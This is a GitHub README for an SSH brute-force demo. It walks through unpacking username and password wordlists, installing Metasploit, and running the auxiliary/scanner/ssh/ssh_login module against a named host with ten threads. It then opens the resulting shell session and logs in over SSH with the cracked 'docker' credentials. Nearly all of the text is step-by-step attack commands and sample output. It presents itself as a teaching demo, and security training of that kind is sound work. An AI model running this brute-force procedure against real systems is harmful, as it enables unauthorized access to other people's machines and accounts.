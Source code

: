 # Bruteforcing-SSH
========

This is a demo which will exploit SSH on a linux host. Once SSH access is gained, privilege escalation is used to become root. 


Downloading Dictionary Files
------------

Clone the project on your local system:

    git clone https://github.com/sillihkram/Bruteforcing-SSH.git
    cd Bruteforcing-SSH/

unpack and prepare the list of commonly used users & passwords
    
    gunzip passwords.txt.gz
    cp passwords.txt /tmp/passwords.txt 
    cp users.txt /tmp/users.txt

Just so you are familiar, take at the content and format of the files 
    
    wc -l /tmp/passwords.txt # Notice this is a long list
    head /tmp/passwords.txt
    head /tmp/users.txt
    

# Installing Metasploit (RHEL, Fedora, CentOS)
------------

Download the latest version of Metasploit Framework (OSS)

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

Set Permissions 

    chmod 755 msfinstall

 Run the install script

    ./msfinstall

By default metasploit framework installs it's self to `/opt/` let's take a look and add that to our path
    
    ls /opt/
    echo $PATH

Add the `/opt/metasploit-framework/bin/` directory to our path


    PATH=/opt/metasploit-framework/bin/:$PATH
    # you may want to make this persistant add this line to your .bash_profile


Add Metasploit repo to our system and make sure we have the latest version.

    msfupdate

# Installing Metasploit (Mac)
------------

    brew install metasploit
     

# Using Metasploit
------------

Launch the metasploit framework console

 
    msfconsole


List the available exploits modules for metasploit


    show exploits

Because there are over 2000 modules it may make more sense to search for one we're looking for
 
    search ssh login

For this demo select the auxiliary/scanner/ssh/ssh_login exploit module

    use auxiliary/scanner/ssh/ssh_login


List the options available for this module

    options

Define options for ssh_login module to launch a brute force attack against a target host

    set stop_on_success true
    set pass_file /tmp/password.txt
    set user_file /tmp/users.txt
    set threads 10


Define a target
    
    set rhost graffias.openincite.net

Launch the brute force attack

    exploit

if Metasploit successfully authenitcates with a usr/pass provided in the lists you'll see a message similar to the following:

`[+] 192.168.0.136:22 - Success: 'docker:password'`


Not only did metasploit find a combination that successfully authenticates but it also left a session open. List the open sessions

    sessions

To interact with the open session use the sessions command: `sessions -i <session id>`

    sessions -i 1

Now you are connected to a shell on the target. try typing some basic shell commands

    hostname -f
    uname -a

# Enumerating a Host
------------

connect to the target using the discovered credentials

    ssh graffias.openincite.net -l docker

